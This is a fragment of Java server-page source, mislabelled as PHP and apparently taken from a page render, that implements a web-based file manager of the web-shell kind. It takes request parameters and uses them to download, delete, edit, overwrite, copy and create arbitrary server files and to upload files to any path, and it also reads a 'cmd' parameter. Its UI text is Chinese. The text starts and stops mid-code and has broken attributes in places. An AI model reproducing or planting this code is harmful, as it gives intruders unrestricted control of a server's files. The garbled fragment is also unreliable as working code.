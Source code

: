 ```php
r("action");String strFile = request.getParameter("file");String strPath = strDir + "\\" + strFile; String strCmd = request.getParameter("cmd");StringBuffer sbEdit=new StringBuffer("");StringBuffer sbDown=new StringBuffer("");StringBuffer sbCopy=new StringBuffer("");StringBuffer sbSaveCopy=new StringBuffer("");StringBuffer sbNewFile=new StringBuffer("");if((tabID==null) || tabID.equals("")){ tabID = "1";}if(strDir==null||strDir.length()<1){ strDir = request.getRealPath("/");}if(strAction!=null && strAction.equals("down")){ File f=new File(strPath); if(f.length()==0) {  sbDown.append("文件大小为 0 字节，就不用下了吧"); } else {  response.setHeader("content-type","text/html; charset=ISO-8859-1");  response.setContentType("APPLICATION/OCTET-STREAM");   response.setHeader("Content-Disposition","attachment; filename=\""+f.getName()+"\"");  FileInputStream fileInputStream =new FileInputStream(f.getAbsolutePath());  out.clearBuffer();  int i;  while ((i=fileInputStream.read()) != -1)  {   out.write(i);   }  fileInputStream.close();  out.close(); }}if(strAction!=null && strAction.equals("del")){ File f=new File(strPath); f.delete();}if(strAction!=null && strAction.equals("edit")){ File f=new File(strPath);  BufferedReader br=new BufferedReader(new InputStreamReader(new FileInputStream(f))); sbEdit.append("<form name='frmEdit' action='' method='POST'>\r\n"); sbEdit.append("<input type=hidden name=action value=save >\r\n"); sbEdit.append("<input type=hidden name=path value='"+strDir+"' >\r\n"); sbEdit.append("<input type=hidden name=file value='"+strFile+"' >\r\n"); sbEdit.append("<input type=submit name=save value=' "+strFileSave[languageNo]+" '> "); sbEdit.append("<input type=button name=goback value=' "+strBack[languageNo]+" ' o nclick='history.back(-1);'> &nbsp;"+strPath+"\r\n"); sbEdit.append("<br><textarea rows=30 cols=90 name=content>"); String line=""; while((line=br.readLine())!=null) {  sbEdit.append(htmlEncode(line)+"\r\n");   }   sbEdit.append("</textarea>"); sbEdit.append("<input type=hidden name=path value="+strDir+">"); sbEdit.append("</form>");}if(strAction!=null && strAction.equals("save")){ File f=new File(strPath); BufferedWriter bw=new BufferedWriter(new OutputStreamWriter(new FileOutputStream(f))); String strContent=request.getParameter("content"); bw.write(strContent); bw.close();}if(strAction!=null && strAction.equals("copy")){ File f=new File(strPath); sbCopy.append("<br><form name='frmCopy' action='' method='POST'>\r\n"); sbCopy.append("<input type=hidden name=action value=savecopy >\r\n"); sbCopy.append("<input type=hidden name=path value='"+strDir+"' >\r\n"); sbCopy.append("<input type=hidden name=file value='"+strFile+"' >\r\n"); sbCopy.append("原始文件： "+strPath+"<p>"); sbCopy.append("目标文件： <input type=text name=file2 size=40 value='"+strDir+"'><p>"); sbCopy.append("<input type=submit name=save value=' "+strFileCopy[languageNo]+" '> "); sbCopy.append("<input type=button name=goback value=' "+strBack[languageNo]+" ' o nclick='history.back(-1);'> <p>&nbsp;\r\n"); sbCopy.append("</form>");}if(strAction!=null && strAction.equals("savecopy")){ File f=new File(strPath); String strDesFile=request.getParameter("file2"); if(strDesFile==null || strDesFile.equals("")) {  sbSaveCopy.append("<p><font color=red>目标文件错误。</font>"); } else {  File f_des=new File(strDesFile);  if(f_des.isFile())  {   sbSaveCopy.append("<p><font color=red>目标文件已存在,不能复制。</font>");  }  else  {   String strTmpFile=strDesFile;   if(f_des.isDirectory())   {    if(!strDesFile.endsWith("\\"))    {     strDesFile=strDesFile+"\\";    }    strTmpFile=strDesFile+"cqq_"+strFile;    }      File f_des_copy=new File(strTmpFile);   FileInputStream in1=new FileInputStream(f);   FileOutputStream out1=new FileOutputStream(f_des_copy);   byte[] buffer=new byte[1024];   int c;   while((c=in1.read(buffer))!=-1)   {    out1.write(buffer,0,c);   }   in1.close();   out1.close();    sbSaveCopy.append("原始文件 ："+strPath+"<p>");   sbSaveCopy.append("目标文件 ："+strTmpFile+"<p>");   sbSaveCopy.append("<font color=red>复制成功！</font>");     }   }  sbSaveCopy.append("<p><input type=button name=saveCopyBack o nclick='history.back(-2);' value=返回>");}if(strAction!=null && strAction.equals("newFile")){ String strF=request.getParameter("fileName"); String strType1=request.getParameter("btnNewFile"); String strType2=request.getParameter("btnNewDir"); String strType=""; if(strType1==null) {  strType="Dir"; } else if(strType2==null) {  strType="File"; } if(!strType.equals("") && !(strF==null || strF.equals(""))) {     File f_new=new File(strF);      if(strType.equals("File") && !f_new.createNewFile())    sbNewFile.append(strF+" 文件创建失败");   if(strType.equals("Dir") && !f_new.mkdirs())    sbNewFile.append(strF+" 目录创建失败"); } else {  sbNewFile.append("<p><font color=red>建立文件或目录出错。</font>"); }}if((request.getContentType()!= null) && (request.getContentType().toLowerCase().startsWith("multipart"))){ String tempdir="."; boolean error=false; response.setContentType("text/html"); sbNewFile.append("<p><font color=red>建立文件或目录出错。</font>"); HttpMultiPartParser parser = new HttpMultiPartParser(); int bstart = request.getContentType().lastIndexOf("oundary="); String bound = request.getContentType().substring(bstart + 8); int clength = request.getContentLength(); Hashtable ht = parser.processData(request.getInputStream(), bound, tempdir, clength); if (ht.get("cqqUploadFile") != null) {  FileInfo fi = (FileInfo) ht.get("cqqUploadFile");  File f1 = fi.file;  UplInfo info = UploadMonitor.getInfo(fi.clientFileName);  if (info != null && info.aborted)   {   f1.delete();   request.setAttribute("error", "Upload aborted");  }  else   {   String path = (String) ht.get("path");   if(path!=null && !path.endsWith("\\"))     path = path + "\\";   if (!f1.renameTo(new File(path + f1.getName())))    {    request.setAttribute("error", "Cannot upload file.");    error = true;    f1.delete();   }  } }}%><html><head><style type="text/css">td
```